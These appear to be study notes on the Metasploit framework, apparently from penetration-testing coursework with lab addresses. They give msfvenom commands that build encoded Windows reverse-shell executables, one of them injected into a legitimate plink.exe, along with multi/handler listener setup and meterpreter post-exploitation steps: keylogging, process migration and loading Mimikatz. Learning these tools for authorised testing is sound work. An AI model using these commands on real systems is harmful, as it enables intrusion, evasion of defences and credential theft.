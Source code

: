 	meterpreter > kill
	meterpreter > exit
Executable payloads:
	Metasploit payloads can be exported into files with various extensions (i.e. .asp, .vbs, .jar, .war, .dll, .exe, ...)
		msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -o shell_reverse.exe
		msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_encoded.exe
	Metasploit can also inject payloads into existing executables
		msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/plink.exe -o shell_reverse_encoded_embedded.exe
	Alternatively to msfvenom, we can generate the same payload-injected executables from within metasploit, with the generate command
Metasploit Exploit Multi Handler:
	We use the multi handler with the command: msf5 > use multi/handler
	The we set all the required options:  set options
	We then run the handler with the -j flag, which sends the listener in background and does not block the metasploit console while waiting for the victim to connect: msf5 > exploit -j
	We can check the background jobs with the jobs command: msf5 > jobs
Client-side attacks:
	Metasploit supports many executable formats that are particularly useful when implementing client-side attacks, for example hta-psh, vba and vba-psh
	We can review these formats with: msf5 > msfvenom  -l formats | head -n 35
	Metasploit also contains multimple browser exploits (i.e. using vulnerabilities in flash)
Advanced features and transports:
	One of these advanced features are advanced encoders for payloads:
		msf5 > use multi/handler
		msf5 > show advanced
		msf5 > set EnableStageEncoding true
		msf5 > set StageEncoder x86/shikata_ga_nai
	Autorun: the autorun options allows metasploit to execute an action when a meterpreter connection is established, especially useful during a client-side attack. For example, we can configure the windows enum_logged_on_users module to automatically enumerate logged in users when meterpreter connects:
		msf5 > set AutoRunScript windows/gather/enum_logged_on_users
		msf5 > exploit
	We can also temporarily exit the meterpreter shell, perform other tasks within the metasploit framework and then re-entrer the meterpeter session if needed:
		meterpreter > background
		msf5 > sessions -l
		msf5 > sessions -i X
	We can use meterpreter payload transports to switch protocol after the initial compromise:
		To list available transports for the current meterpreter session: meterpreter > transport list
		We can add a new transport protocol to the current meterpreter session with: meterpreter > add -t reverse_tcp -l 10.11.0.4 -p 5555
		To change transport method to the newly created one: meterpreter > transport next
Post-Exploitation with Metasploit:
	Core post-exploitation features: 
		Screenshot command: meterpreter > screenshot
		Key logger:
			meterpreter > keyscan_start
			meterpreter > keyscan_dump
	Migrating processes: we can move the execution of meterpreter to a different process if needeed. Note that we are allowed to migrate to processes executed at integrity level or privilege equal or lower than that of the current process
		meterpreter > ps
		meterpreter > migrate blablaprocessid
	Post-exploitation modules:
		Powershell meterpreter module:
			meterpreter > load powershell
			meterpreter > help powershell
			meterpreter > powershell_execute "$PSVersionTable.PSVersion"
		Mimikatz meterpreter module:
			meterpreter > load kiwi